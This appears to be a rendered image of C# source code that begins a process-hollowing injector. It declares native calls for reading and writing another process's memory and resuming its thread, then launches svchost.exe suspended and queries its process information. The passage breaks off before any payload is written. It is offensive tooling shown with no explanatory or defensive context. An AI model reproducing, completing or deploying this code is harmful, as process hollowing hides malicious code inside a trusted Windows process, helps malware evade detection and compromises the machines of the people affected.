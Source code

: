 ```csharp
    [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
    private static extern int ZwQueryInformationProcess(
        IntPtr hProcess,
        int procInformationClass,
        ref PROCESS_BASIC_INFORMATION procInformation,
        uint ProcInfoLen,
        ref uint retlen
    );

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool ReadProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        [Out] byte[] lpBuffer,
        int dwSize,
        out IntPtr lpNumberOfBytesRead
    );

    [DllImport("kernel32.dll", SetLastError = true)]
    private static extern uint ResumeThread(IntPtr hThread);

    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        byte[] lpBuffer,
        Int32 nSize,
        out IntPtr lpNumberOfBytesWritten
    );

    private static readonly string targetExeName =
        "C:\\Windows\\System32\\svchost.exe";

    private static readonly uint CREATE_SUSPENDED = 0x4;

    public static void Main(string[] args)
    {
        STARTUPINFO startUpInfo = new();

        CreateProcess(
            null,
            targetExeName,
            IntPtr.Zero,
            IntPtr.Zero,
            false,
            CREATE_SUSPENDED,
            IntPtr.Zero,
            null,
            ref startUpInfo,
            out PROCESS_INFORMATION processInformation
        );

        uint tmp = new();
        IntPtr hProcess = processInformation.hProcess;
        PROCESS_BASIC_INFORMATION processBasicInformation = new();

        _ = ZwQueryInformationProcess(
            hProcess,
            0,
            ref processBasicInformation,
            (uint)Marshal.SizeOf<PROCESS_BASIC_INFORMATION>(),
            ref tmp
        );
```
